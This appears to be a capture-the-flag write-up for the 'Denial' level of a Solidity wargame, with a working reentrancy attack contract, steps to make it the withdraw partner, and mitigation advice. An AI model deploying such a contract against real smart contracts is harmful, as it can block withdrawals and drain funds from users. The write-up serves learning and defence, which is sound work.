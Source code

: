 ```yaml
---
title: Level 20 - Denial
slug: level-20
published: 05-21-2023
lastEdited:
---
```


## Objectives

1. Prevent the owner from calling `withdraw` even when the contract has a positive balance.

## Vulnerabilities

### Reentrancy

The withdraw function is vulnerable to reentrancy attacks. A timelock logic seems to be started
but not implemented completely. We can exploit this fact by making a _hack_ contract become a
withdraw partner.

## Exploit

1. Write and deploy a hacking contract like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address) external;
    function withdraw() external;
    function contractBalance() external returns(uint);
}

contract DenialHack {
    IDenial target;

    constructor(address payable _targetAddress) {
        target = IDenial(_targetAddress);
    }

    receive() external payable {
        if(address(target).balance > 0){
            target.withdraw();
        } else {}
    }
}
```

2. Call `setWithdrawPartner` with the hacking contract's address as argument.

3. When the owner call withdraw, he will not receive any of it's eth.

## Suggested mitigation

1. Completing the timelock logic to one withdraw per hour, per day or whatever else increment of time would prevent this issue from happening.

## Further reading

- Timelock example. <ExternalLink href={"https://solidity-by-example.org/app/time-lock/"} />
- Reentrancy guard by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard"} />
